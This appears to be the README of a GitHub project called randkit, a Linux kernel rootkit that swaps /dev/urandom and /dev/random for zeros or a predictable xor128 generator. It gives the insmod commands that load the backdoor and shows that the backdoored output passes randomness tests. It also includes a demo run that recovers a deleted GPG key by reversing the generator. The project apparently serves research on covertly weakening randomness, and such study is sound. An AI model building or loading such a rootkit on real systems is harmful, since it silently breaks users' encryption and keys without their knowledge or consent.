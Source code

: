 # randkit
 Random number rootkit for the Linux kernel

The goals are to see:
* how a kernel module can access and modify the `/dev/urandom` and `/dev/random` structures.
* what happens when we replace a cryptographically secure PRNG with a predictable and reversible PRNG (here, this simple PRNG is `xor128`).

Contents
=

zero/
-

A simple module that replaces `/dev/(u)random` with `/dev/zero`

```bash
# output 16 random bytes from /dev/urandom
$ head -c16 /dev/urandom | hexdump
0000000 55a4 98ea 7179 4179 d634 fd92 89f2 898e
0000010
# load the zero rootkit
$ sudo insmod randkit_zero.ko
# output 16 zero bytes from /dev/urandom
$ head -c16 /dev/urandom | hexdump
0000000 0000 0000 0000 0000 0000 0000 0000 0000
0000010
# remove the rootkit
$ sudo rmmod randkit_zero
# the random numbers are random again!
$ head -c16 /dev/urandom | hexdump
0000000 194b 2c9f 5054 113b f6bc 5ab8 3ed9 dee2
0000010
```

xor128/
-

A module that replaces `/dev/(u)random` with a simple predictable and reversible PRNG.

This PRNG is called *xor128* and is part of the very fast Xorshift PRNGs: https://en.wikipedia.org/wiki/Xorshift

One of the *xor128* features is that it passes the *diehard* random number tests: https://en.wikipedia.org/wiki/Diehard_tests (which is a rather complete randomness test suite).

Let's do a quick randomness test with another randomness test suite. We will use the `ent` tool available at https://www.fourmilab.ch/random/

For the real `/dev/urandom` device:

```bash
# generate 5 MB of random data from the real /dev/urandom
$ dd if=/dev/urandom of=random5MB.urandom bs=1M count=5
5+0 records in
5+0 records out
5242880 bytes (5.2 MB) copied, 0.406672 s, 12.9 MB/s
# test the randomness of the data using the ent tool
$ ent random5MB.urandom
Entropy = 7.999968 bits per byte.

Optimum compression would reduce the size
of this 5242880 byte file by 0 percent.

Chi square distribution for 5242880 samples is 233.65, and randomly
would exceed this value 75.00 percent of the times.

Arithmetic mean value of data bytes is 127.4776 (127.5 = random).
Monte Carlo value for Pi is 3.143720682 (error 0.07 percent).
Serial correlation coefficient is -0.000062 (totally uncorrelated = 0.0).
```

For the backdoored `/dev/urandom` device:

```bash
# load the rootkit
$ sudo insmod randkit_xor128.ko
# generate 5 MB of random data from the backdoored /dev/urandom
$ dd if=/dev/urandom of=random5MB.xor128 bs=1M count=5
5+0 records in
5+0 records out
5242880 bytes (5.2 MB) copied, 0.0266334 s, 197 MB/s
# test the randomness of the data using the ent tool
$ ent random5MB.xor128 
Entropy = 7.999964 bits per byte.

Optimum compression would reduce the size
of this 5242880 byte file by 0 percent.

Chi square distribution for 5242880 samples is 261.73, and randomly
would exceed this value 50.00 percent of the times.

Arithmetic mean value of data bytes is 127.4943 (127.5 = random).
Monte Carlo value for Pi is 3.140932900 (error 0.02 percent).
Serial correlation coefficient is 0.000238 (totally uncorrelated = 0.0).
```

Both the files appear to be random. Therefore it is difficult to distinguish a predictable PRNG like *xor128* with a **really** random CSPRNG like `/dev/urandom`.

fops/
-

A module that checks that the `struct file_operations` pointer from `/dev/urandom` is accessible using different techniques

tests/
-

Programs to test that the modules work correctly (e.g. read random numbers from the file descriptor, syscall, ...).

examples/
-

Shows how to retrieve past random numbers generated by the `randkit_xor128` module.

Build
=

Go inside the `fops/`, `zero/` or `xor128/` directories and type `make`.

You need the linux headers for your kernel.

Test
=

Go to the `examples/` directory and type `make`.

This will encrypt data using a key generated by the backdoored PRNG. Then it will delete the key and try to decrypt the data by retrieving the PRNG previous values.

```bash
$ cd examples
$ make
./example.sh
[*] reloading the module
[*] cleaning files from previous run
[*] generating 5KB of random numbers
1+0 records in
1+0 records out
5120 bytes (5.1 kB) copied, 6.9455e-05 s, 73.7 MB/s
[*] generating the GPG symmetric key
[*] encrypting data
[*] deleting the key
[*] generating 5KB of random numbers again
1+0 records in
1+0 records out
5120 bytes (5.1 kB) copied, 6.6115e-05 s, 77.4 MB/s
[*] decrypt the data by reversing the PRNG to retrieve the key
[*] this should take approx. 1280 iterations
[*] iteration: 1
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 2
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 3
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
...
[*] iteration: 1287
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 1288
gpg: decryption failed: bad key
[*] bad key. Retrying with previous state...
[*] iteration: 1289
[*] key found!
[*] comparing the original and decrypted files:
[*] Success. Files are equal!
```